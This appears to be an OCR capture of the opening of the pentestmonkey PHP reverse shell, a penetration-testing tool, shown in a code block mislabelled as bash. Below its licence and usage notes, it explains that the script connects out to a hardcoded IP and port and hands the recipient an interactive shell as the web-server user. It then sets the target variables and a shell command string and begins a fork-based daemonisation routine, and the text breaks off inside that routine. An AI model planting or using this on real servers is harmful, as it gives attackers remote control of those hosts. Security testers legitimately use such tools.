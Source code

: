 ```bash
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
    // Fork and have the parent process exit
    $pid = pcntl_fork();

    if ($pid == -1) {
        printit("ERROR: Can't fork");
        exit(1);
    }

    if ($pid) {
        exit(0);  // Parent exits
    }
```